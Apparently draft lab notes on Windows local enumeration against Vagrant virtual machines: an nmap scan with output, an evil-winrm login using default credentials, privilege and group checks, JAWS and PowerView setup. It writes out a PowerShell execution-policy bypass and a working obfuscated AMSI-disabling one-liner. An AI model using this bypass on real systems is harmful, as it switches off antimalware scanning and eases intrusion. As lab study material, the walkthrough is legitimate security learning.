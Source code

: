 ```yaml
---
title: Windows Local Escalation and Enumeration
published: 2025-02-08
description: "Commands for enumerating windows"
image: "./img/img.jpg"
tags: [Notes ,AD, windows]
category: 'Notes'
draft: true
---
```


# Nmap Scan

```bash
sudo nmap -sC -sV -T4 192.168.56.0/24
```

Result

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-22 08:10 +01
Nmap scan report for vagrant (192.168.56.30)
Host is up (0.00056s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: VAGRANT
|   NetBIOS_Domain_Name: VAGRANT
|   NetBIOS_Computer_Name: VAGRANT
|   DNS_Domain_Name: vagrant
|   DNS_Computer_Name: vagrant
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-22T07:11:23+00:00
|_ssl-date: 2025-02-22T07:11:29+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=vagrant
| Not valid before: 2025-02-20T18:13:02
|_Not valid after:  2025-08-22T18:13:02
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2025-02-20T10:15:06
|_Not valid after:  2028-02-20T10:15:06
|_http-title: Not Found
|_ssl-date: 2025-02-22T07:11:29+00:00; 0s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
MAC Address: 00:0C:29:DF:D9:67 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.56.31 (192.168.56.31)
Host is up (0.00049s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=vagrant-10
| Not valid before: 2025-02-20T18:15:37
|_Not valid after:  2025-08-22T18:15:37
|_ssl-date: 2025-02-22T07:11:29+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=VAGRANT-10
| Subject Alternative Name: DNS:VAGRANT-10, DNS:vagrant-10
| Not valid before: 2025-02-20T10:17:36
|_Not valid after:  2028-02-20T10:17:36
|_ssl-date: 2025-02-22T07:11:29+00:00; 0s from scanner time.
| tls-alpn: 
|_  http/1.1
MAC Address: 00:0C:29:1E:03:D2 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.0000090s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
902/tcp  open  ssl/vmware-auth VMware Authentication Daemon 1.10 (Uses VNC, SOAP)
2200/tcp open  ici?
2222/tcp open  EtherNetIP-1?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)

Post-scan script results:
| clock-skew: 
|   0s: 
|     192.168.56.30 (vagrant)
|_    192.168.56.31
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (3 hosts up) scanned in 247.52 seconds
```

# Local Enumeration
we can see winrm port is open we can try

```bash
evil-winrm -i 192.168.56.30 -u 'vagrant' -p 'vagrant'
```

we are in

so lets start enumeration

from `whoami /priv` we can see interesting staff

![whoami](image.png)

continue our enumeration `whoami /groups` we can see we are part of `administrators` group

![groups](image-1.png)

check localusers and groups

![local](image-2.png)

using `Get-MpComputerStatus` we can see that `RealTimeProtectionEnabled : True` and `IoavProtectionEnabled : True`


runing `systeminfo` we get some information about the systme
```
Host Name:                 VAGRANT
OS Name:                   Microsoft Windows Server 2019 Datacenter Evaluation
OS Version:                10.0.17763 N/A Build 17763
```

enough doing things manualy let use some automated tools

before start make sure to disable ps exxecute policy nad amsi anti-malware scan interface

```bash
# Bypassing the PowerShell Execution Policy
powershell -ep bypass

# AMSI stands for Anti-Malware Scan Interface and was introduced in Windows 10.AMSI provides increased protection against the usage of some modern Tools,
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

![bypass](image-3.png)

using jaws-enum

```bash
powershell.exe -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

under services we can find some good staff
```
-----------------------------------------------------------
 Services
-----------------------------------------------------------

...
Spooler                                  Print Spooler                                                                      Running
...
...
TermService                              Remote Desktop Services                                                            Running
...
```

# Domain Enumeration

let use powerview 
```bash
. .\PowerView.ps1
```




